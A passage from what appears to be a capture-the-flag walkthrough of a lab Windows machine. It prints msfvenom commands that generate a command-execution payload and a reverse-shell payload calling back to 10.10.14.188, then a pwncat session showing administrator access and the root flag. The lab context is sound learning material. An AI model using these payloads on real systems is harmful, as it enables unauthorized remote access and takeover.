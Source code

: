 I had no luck with the previous payload so I tried others:

```
msfvenom -p windows/exec CMD='copy C:\users\Administrator\desktop\root.txt C:\users\shaun\Videos\cyfun.txt' -b '\x00\x0A\x0D' -f python -v payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.188 LPORT=9999 -b '\x00\x0A\x0D' -f python -v payload
```

I had more luck with `windows/shell_reverse_tcp` but it was just service being unstable.
It's possible the 1st exploit tentative made the service partially crash.

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.198:49704 (family 2/IPv4, TCP)
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
buff\administrator

C:\Windows\system32>type c:\users\Administrator\desktop\root.txt
ccf880bd191ba6b99c413b3855a8bb6d
```

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
